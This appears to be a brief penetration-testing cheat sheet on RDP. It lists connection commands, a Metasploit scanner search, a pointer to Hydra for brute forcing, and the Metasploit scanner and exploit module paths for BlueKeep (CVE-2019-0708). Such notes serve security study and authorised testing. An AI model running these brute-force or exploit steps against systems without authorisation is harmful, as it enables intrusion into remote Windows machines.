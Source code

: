 
Connect to rdp 

```bash

xfreedp /u:USER /p:PASS /v:IP:PORT

```

```
rdesktop IP_ADDR # rdp remote desktop to windows
```

# Metasploit

```bash

search rdp_scanner # Check for rdp service running on a port 

```


# Brute force

[Hydra](Hydra) 

# CVE-2019-0708 BlueKeep

## Metasploit

```bash

auxiliary/scanner/rdp/cve_2019_0708_bluekeep

exploit/windows/rdp/cve_2019_0708_bluekeep_rce 

```